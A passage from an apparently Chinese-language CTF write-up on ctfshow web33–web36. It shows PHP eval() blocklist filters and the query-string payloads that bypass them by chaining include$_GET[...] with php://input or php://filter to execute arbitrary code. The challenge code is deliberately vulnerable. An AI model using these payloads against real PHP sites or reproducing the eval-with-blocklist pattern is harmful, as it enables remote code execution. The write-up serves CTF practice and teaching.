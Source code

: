 以下是几个测试成功的 payload

```
/index.php?c=include"$_GET[1]"?>&1=php://input
/index.php?c=include$_GET[1]?>&1=php://input

/index.php?c=?><?=include"$_GET[1]"?>&1=php://input
/index.php?c=?><?=include$_GET[1]?>&1=php://input
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061605943.png)

当然 php://filter 也是可以的

## web33

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
    eval($c);
}
```

比上题增加了对双引号的过滤

payload

`/index.php?c=include$_GET[1]?>&1=php://input`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061608432.png)

## web34

在上题的基础上又过滤了 `:`

乍一看以为伪协议用不了, 其实根本没有影响

上题的 payload 依然可用 (参数 c 里面根本就没有 `:`)

`/index.php?c=include$_GET[1]?>&1=php://input`

## web35

增加了 `<` `=` 的过滤

payload 同上

## web36

增加了 `/` `0-9` 的过滤

上面的 payload 稍微改一下

```
/index.php?c=include$_GET[a]?>&a=php://input
/index.php?c=include$_GET{a}?>&a=php://input
```
